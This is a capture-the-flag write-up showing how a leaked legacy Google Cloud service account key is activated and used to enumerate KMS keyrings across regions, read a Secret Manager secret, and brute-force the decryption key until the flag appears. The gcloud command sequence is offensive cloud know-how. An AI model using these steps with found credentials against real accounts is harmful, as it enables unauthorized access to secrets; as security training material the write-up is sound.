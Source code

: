 # Solution

So this challenge was all about enumeration and finding what you can do with an old service account key that was kept around for legacy purposes.

If you have followed some of my other Cloud challenges from last year you would know that I love [this](https://gitlab.com/gitlab-com/gl-security/security-operations/gl-redteam/gcp_enum/-/blob/master/gcp_enum.sh) script from GitLab Red team on enumerating GCP resources So lets go ahead and use that and see what happens.

But before that we need to enable the service account key and make sure we are looking at the right project. So lets take a look at the key.

```json
{
  "type": "service_account",
  "project_id": "${SOME_PROJECT_NAME}",
  "private_key_id": "6baafbed73bf3181fd03b8d26f40eb53f235fe0f",
  "private_key": "-----BEGIN PRIVATE KEY-----<snip></snip>PRIVATE KEY-----\n",
  "client_email": "legacy-svc-account@${SOME_PROJECT_NAME}.iam.gserviceaccount.com",
  "client_id": "110800087806377709098",
  "auth_uri": "https://accounts.google.com/o/oauth2/auth",
  "token_uri": "https://oauth2.googleapis.com/token",
  "auth_provider_x509_cert_url": "https://www.googleapis.com/oauth2/v1/certs",
  "client_x509_cert_url": "https://www.googleapis.com/robot/v1/metadata/x509/legacy-svc-account%40${SOME_PROJECT_NAME}.iam.gserviceaccount.com"
}
```

Note that I have removed the private key and the project name given that these could change in the real challenge.

However this key gives us a bit of insight, we now know the project name. We know that the service account is called `legacy-svc-account`.

Cool lets go ahead and see what we can do with it. Activated the key with

`gcloud auth activate-service-account --key-file=legacy.json`

Then lets make sure we are looking at the right project but running:

`gcloud config set project ${SOME_PROJECT_NAME}`

NOTE: We get the project name from the Key above.

Okay so let's run the enumeration script from before and see what we get in the output. The script is a bit old so we get some false positives, but looking in the output folder from the script we can see what it actually found.

After scanning everything we only really get one result which is:
```
[*] Enumerating crypto keys
  [+] SUCCESS
  [!] FAIL
  [+] SUCCESS
```

And looking in `kms.txt` we see 

```
NAME
projects/cloudsupporthacks/locations/global/keyRings/empty-keyring
```

Hmm okay, so there is no keys in this keyring but surely this is here for a reason. It also tells us that we DO have permission to list keyrings. So maybe there are other keyrings we can't see.

A bit of research into this you should find that [keyrings](https://cloud.google.com/sdk/gcloud/reference/kms/keyrings/list) are coupled with a location and by default we are looking at the GLOBAL location.

So let's try and see if there are any other keyrings in any other region. So let's a get a list of all available regions in GCP. We quickly grab a list from online and put it together, or if you haver another GCP project you have access to you can run.

`gcloud compute regions list --format=value(name) > regions.txt`

Then lets try and list all the keyrings again but in each region so:

`for region in $(cat regions.txt); do gcloud kms keyrings list --location ${region}; done;`

And bingo from within the output we get

```
NAME
projects/cloudsupporthacks/locations/australia-southeast2/keyRings/wardens-locks
```

A keyring in the `australia-southeast2` region, this is good to know and to note down. Let's see if there are any keys in that keyring.

```bash
gcloud kms keys list --keyring wardens-locks --location australia-southeast2

NAME                                                                                                        PURPOSE          ALGORITHM                    PROTECTION_LEVEL  LABELS  PRIMARY_ID  PRIMARY_STATE
projects/cloudsupporthacks/locations/australia-southeast2/keyRings/wardens-locks/cryptoKeys/a-big-key       ENCRYPT_DECRYPT  GOOGLE_SYMMETRIC_ENCRYPTION  SOFTWARE                  1           ENABLED
projects/cloudsupporthacks/locations/australia-southeast2/keyRings/wardens-locks/cryptoKeys/a-bronze-key    ENCRYPT_DECRYPT  GOOGLE_SYMMETRIC_ENCRYPTION  SOFTWARE                  1           ENABLED
projects/cloudsupporthacks/locations/australia-southeast2/keyRings/wardens-locks/cryptoKeys/a-diamond-key   ENCRYPT_DECRYPT  GOOGLE_SYMMETRIC_ENCRYPTION  SOFTWARE                  1           ENABLED
projects/cloudsupporthacks/locations/australia-southeast2/keyRings/wardens-locks/cryptoKeys/a-fat-key       ENCRYPT_DECRYPT  GOOGLE_SYMMETRIC_ENCRYPTION  SOFTWARE                  1           ENABLED
projects/cloudsupporthacks/locations/australia-southeast2/keyRings/wardens-locks/cryptoKeys/a-filthy-key    ENCRYPT_DECRYPT  GOOGLE_SYMMETRIC_ENCRYPTION  SOFTWARE                  1           ENABLED
projects/cloudsupporthacks/locations/australia-southeast2/keyRings/wardens-locks/cryptoKeys/a-golden-key    ENCRYPT_DECRYPT  GOOGLE_SYMMETRIC_ENCRYPTION  SOFTWARE                  1           ENABLED
projects/cloudsupporthacks/locations/australia-southeast2/keyRings/wardens-locks/cryptoKeys/a-jail-key      ENCRYPT_DECRYPT  GOOGLE_SYMMETRIC_ENCRYPTION  SOFTWARE                  1           ENABLED
projects/cloudsupporthacks/locations/australia-southeast2/keyRings/wardens-locks/cryptoKeys/a-key-key       ENCRYPT_DECRYPT  GOOGLE_SYMMETRIC_ENCRYPTION  SOFTWARE                  1           ENABLED
projects/cloudsupporthacks/locations/australia-southeast2/keyRings/wardens-locks/cryptoKeys/a-northern-key  ENCRYPT_DECRYPT  GOOGLE_SYMMETRIC_ENCRYPTION  SOFTWARE                  1           ENABLED
projects/cloudsupporthacks/locations/australia-southeast2/keyRings/wardens-locks/cryptoKeys/a-secret-key    ENCRYPT_DECRYPT  GOOGLE_SYMMETRIC_ENCRYPTION  SOFTWARE                  1           ENABLED
projects/cloudsupporthacks/locations/australia-southeast2/keyRings/wardens-locks/cryptoKeys/a-silver-key    ENCRYPT_DECRYPT  GOOGLE_SYMMETRIC_ENCRYPTION  SOFTWARE                  1           ENABLED
projects/cloudsupporthacks/locations/australia-southeast2/keyRings/wardens-locks/cryptoKeys/a-small-key     ENCRYPT_DECRYPT  GOOGLE_SYMMETRIC_ENCRYPTION  SOFTWARE                  1           ENABLED
projects/cloudsupporthacks/locations/australia-southeast2/keyRings/wardens-locks/cryptoKeys/a-smart-key     ENCRYPT_DECRYPT  GOOGLE_SYMMETRIC_ENCRYPTION  SOFTWARE                  1           ENABLED
projects/cloudsupporthacks/locations/australia-southeast2/keyRings/wardens-locks/cryptoKeys/an-iron-key     ENCRYPT_DECRYPT  GOOGLE_SYMMETRIC_ENCRYPTION  SOFTWARE                  1           ENABLED

```

Jeez okay so now we have a whole lot of keys that are all enabled and can do SYMMETRIC_ENCRYPTION. 

There isn't really much else we can do with this since, we need something to encrypt/decrypt. To use this, so let's keep looking.

There has to be some other piece of data that we are missing. But after investigating the GCP_ENUM script we don't see anything. 

Going back to the challenge description we see the word `secretive` is in italics, is this a hint pointing towards Cloud Secrets?

Lets try and list the secrets in the project.

```bash
gcloud secrets list

NAME               CREATED              REPLICATION_POLICY  LOCATIONS
unused_data        2021-08-27T04:14:12  automatic           -
```

Bingo, another permission we have found we have is to list secrets. Can we... access the secrets? Let's try:

```
gcloud secrets versions list unused_data

NAME  STATE    CREATED              DESTROYED
1     enabled  2021-08-27T04:14:16  -
```

So there is only 1 version which is enabled lets try and grab it:

```bash
gcloud secrets versions access 1 --secret unused_data

CiQA2HYKWM869h0ZRmbEdHfu4AndTgPleZ7sklglz+ifGk/nBU8SZgDcCnx57Or2BojHjcMNJHv+++e6B0Heul1bagPi1xuQ5q+/riw7sy26bDUZpp8/105NI34IkszTMFBfsXvOgMqaMNBu/oGdL07hBLcS5ZCHLK7J9U9AhjZo457NiUcqfjg2u2ErZg==
```

Nice! Some base64, however if we base64 decode it, we just get random data...... encrypted data!

Let's try and use some of the keys from above to see if we can decrypt this data. Saving the decoded base64 to a file called secret.enc.

However we don't know which key to use... or how many. No problems lets just write another for loop.

So lets use [this](https://cloud.google.com/sdk/gcloud/reference/kms/decrypt) command as a reference so we can try this again.

First we need to export a list of the key names in the key ring:

```bash
gcloud kms keys list --keyring wardens-locks --location australia-southeast2 --format=value\(name\) | cut -d/ -f8

a-big-key
a-bronze-key
a-diamond-key
a-fat-key
a-filthy-key
a-golden-key
a-jail-key
a-key-key
a-northern-key
a-secret-key
a-silver-key
a-small-key
a-smart-key
an-iron-key
```

Let's save that to a file called keys.txt and give this another go:

```bash
for key in $(cat keys.txt); do echo Trying $key...; gcloud kms decrypt --key=$key --keyring=wardens-locks --location australia-southeast2 --ciphertext-file=./cipher.enc --plaintext-file=final.txt; done

Trying a-big-key...
ERROR: (gcloud.kms.decrypt) INVALID_ARGUMENT: Decryption failed: verify that 'name' refers to the correct CryptoKey.
Trying a-bronze-key...
ERROR: (gcloud.kms.decrypt) INVALID_ARGUMENT: Decryption failed: verify that 'name' refers to the correct CryptoKey.
Trying a-diamond-key...
ERROR: (gcloud.kms.decrypt) INVALID_ARGUMENT: Decryption failed: verify that 'name' refers to the correct CryptoKey.
Trying a-fat-key...
ERROR: (gcloud.kms.decrypt) INVALID_ARGUMENT: Decryption failed: verify that 'name' refers to the correct CryptoKey.
Trying a-filthy-key...
ERROR: (gcloud.kms.decrypt) INVALID_ARGUMENT: Decryption failed: verify that 'name' refers to the correct CryptoKey.
Trying a-golden-key...
ERROR: (gcloud.kms.decrypt) INVALID_ARGUMENT: Decryption failed: verify that 'name' refers to the correct CryptoKey.
Trying a-jail-key...
ERROR: (gcloud.kms.decrypt) INVALID_ARGUMENT: Decryption failed: verify that 'name' refers to the correct CryptoKey.
Trying a-key-key...
ERROR: (gcloud.kms.decrypt) INVALID_ARGUMENT: Decryption failed: verify that 'name' refers to the correct CryptoKey.
Trying a-northern-key...
ERROR: (gcloud.kms.decrypt) INVALID_ARGUMENT: Decryption failed: verify that 'name' refers to the correct CryptoKey.
Trying a-secret-key...
ERROR: (gcloud.kms.decrypt) INVALID_ARGUMENT: Decryption failed: verify that 'name' refers to the correct CryptoKey.
Trying a-silver-key...
Trying a-small-key...
ERROR: (gcloud.kms.decrypt) INVALID_ARGUMENT: Decryption failed: verify that 'name' refers to the correct CryptoKey.
Trying a-smart-key...
ERROR: (gcloud.kms.decrypt) INVALID_ARGUMENT: Decryption failed: verify that 'name' refers to the correct CryptoKey.
Trying an-iron-key...
ERROR: (gcloud.kms.decrypt) INVALID_ARGUMENT: Decryption failed: verify that 'name' refers to the correct CryptoKey.
```

This doesn't look promising. However, we see that final.txt was actually created! And a-silver-key didn't error out. Looking at `final.txt`

We get the flag!

`DUCTF{its_time_to_clean_up_your_service_account_permissions!}`


